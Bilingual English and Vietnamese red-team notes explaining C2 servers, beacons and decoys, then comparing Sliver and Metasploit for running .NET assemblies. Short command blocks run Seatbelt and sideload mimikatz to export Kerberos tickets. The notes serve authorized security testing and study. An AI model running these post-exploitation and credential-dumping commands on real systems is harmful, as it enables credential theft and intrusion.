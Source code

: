 ## Overview

A command and control (C2) server is software tasked to execute commands or binaries on a remote computer, or a network of computers. The primary focus of a C2 is to have a centralized management system where the operator can manage access to other machines somewhere in the network. An operator is the one who carries out the (simulated) attack and manages the software. The access can be gained in multiple ways, be it a SQL Injection vulnerability, weak credentials on different services such as SSH, RDP, or access to the initial machine (foothold) given by the client for a red team engagement or a penetration test. Red team is a group of people specializing in researching different ways getting into systems and refining tools, and being a step ahead of defenders.

A C2 server facilitates the creation of a specific executable, and once it is on the target machine, establishes a communication channel between the server and the target when executed. From here on, we are going to refer to these executables as **beacons**.

### Decoy
A **decoy** in red-teaming refers to any asset, such as a file, network service, or even a whole system, that is deliberately placed to mislead attackers or security systems. Decoys are used to:
- **Distract attackers** from valuable assets. By engaging with decoys, attackers reveal their methods, tools, and intentions without causing real harm.
- **Detect breaches** by monitoring interactions with these decoys, since any interaction is likely unauthorized and malicious. These are also known as honeypots or honeynets when referring to decoy systems or networks.
- **Study attacker behavior** by providing targets that, when interacted with, can give insights into the tactics and tools used by attackers.
- Tricks user that is normal

### Beacon
A **beacon** is a type of malware, code or executables that is used by attackers to establish a communication channel back to a C2 server. Beacons are used to:
- **Maintain persistence** on a compromised system. Beacons regularly "phone home" to a C2 server to confirm they are active and to receive further instructions.
- **Signal exfiltration opportunities** by indicating that the beacon has been successfully installed and the system is ready to be manipulated or used for further infiltration.
- **Manage control** over the compromised system by allowing the attacker to send commands and receive data through the beacon's communication channel.

Predominantly, C2 servers are used by the red team. It is a focused, goal-oriented security testing approach to achieve specific objectives. The objectives closely follow the Cyber Kill Chain.

---

### Attack Lifecycle

Tham khảo tài liệu này https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html        
Ngoài ra, còn một khía cạnh nữa chưa được đề cập: OpSec (Operation Security) - Đây là khía cạnh mà kẻ thù giảm thiểu dấu vết để che giấu sự hiện diện của mình trên hệ thống mục tiêu.


Mình xin được phép trích lời anh Bình:

"Điểm mình thích ở Sliver là nó cho phép mình chạy .Net assembly dễ dàng và nhanh chóng còn metasploit thì quá dài (các bạn sẽ cảm nhận rõ khi gặp bài có Applocker khi mà ta phải compile lại để có thể sử dụng với Living Off The Land Binaries, Scripts and Libraries (https://lolbas-project.github.io/)" 

------------Metasploit
```bash
meterpreter > background
use /post/windows/manage/execute_dotnet_assembly/
set SESSION 1
set DOTNET_EXE /opt/SharpCollection/Seatbelt.exe
set ARGUMENTS '-group=system'
run
```

---------Sliver
```bash
seatbelt -- -group=system
execute-assembly /home/kali/tools/Seatbelt.exe -group=system
```

`sideload /home/kali/Desktop/shell/mimikatz/x64/mimikatz.exe '' \"kerberos::list /export\" \"exit\" `

-----------Tất nhiên Sliver cũng có điểm yếu của nó và mình đã dùng metasploit để khắc phục điều đó:
```
1 File stage của sliver là quá lớn => Sử dụng metasploit làm initial access
2 Khả năng sử lí access token của sliver không ổn định => Sử dụng metasploit để steal hay migrate vào tiến trình có token khác
3 Cả 2 tunnel của bọn này đều lởm => Ligono-ng
```





